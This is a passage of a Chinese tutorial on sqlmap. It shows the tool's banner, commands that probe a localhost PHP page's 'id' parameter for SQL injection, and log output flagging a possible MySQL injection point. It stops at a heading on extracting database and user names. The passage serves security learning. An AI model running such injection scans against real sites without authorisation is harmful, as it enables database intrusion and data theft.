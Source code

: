 ```
C:\Users\asus> sqlmap
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1#pip}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

Usage: sqlmap [options]

sqlmap: error: missing a mandatory option (-d, -u, -l, -m, -r, -g, -c, -x, --wizard, --update, --purge-output or --dependencies), use -h for basic or -hh for advanced help


Press Enter to continue...
```

### 判断注入点

直接使用`-u`命令把 URL 给 SqlMap 会判断注入点。

```
sqlmap -u http://localhost/sql.php?id=
```

要注意这样 sqlmap 会判断所有的动态参数，要指定某个参数，使用`-p`：

```
sqlmap -u http://localhost/sql.php?id= -p id
```

结果：

```
[*] starting at 12:05:40

[12:05:40] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:05:40] [INFO] testing connection to the target URL
[12:05:41] [INFO] heuristics detected web page charset 'utf-8'
[12:05:41] [INFO] testing if the target URL is stable
[12:05:42] [INFO] target URL is stable
[12:05:44] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:05:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
```

sqlmap 报告了参数`id`可能存在注入。

如果参数在 HTTP 正文或者 Cookie 中，可以使用`--data <data>`以及`--cookie <cookie>`来提交数据。

### 获取数据库及用户名称
